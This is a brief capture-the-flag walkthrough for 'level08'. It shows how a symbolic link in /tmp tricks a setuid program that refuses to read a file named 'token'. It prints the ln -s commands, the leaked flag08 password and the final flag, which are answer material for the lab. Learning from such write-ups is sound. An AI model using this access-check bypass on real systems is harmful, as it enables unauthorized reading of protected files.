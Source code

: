 # level08

We're presented with an executable `level08` and a `token` file we can't read.

We run `./level08` and get :

```
./level08 [file to read]
```

We try `./level08 token` :

```
You may not access 'token'
```

We run `string ./level08`. Along with the messages above, we see a string that reads `token`. It's likely that whoever wrote the program hardcoded it to prevent any file named "token" from being read.

We can circumvent this issue with a symbolic link. We run :

```
cd /tmp
ln -s /home/user/level08/token symlink
cd
./level08 /tmp/symlink
```

The program is tricked, and outputs the contents of `token`. It's not actually the level's flag, but the password for user `flag08` :

```
quif5eloekouj29ke0vouxean
```

## The flag

We run `su flag08` and get our flag with getflag :

```
25749xKZ8L7DkSCwJkT9dyv6f
```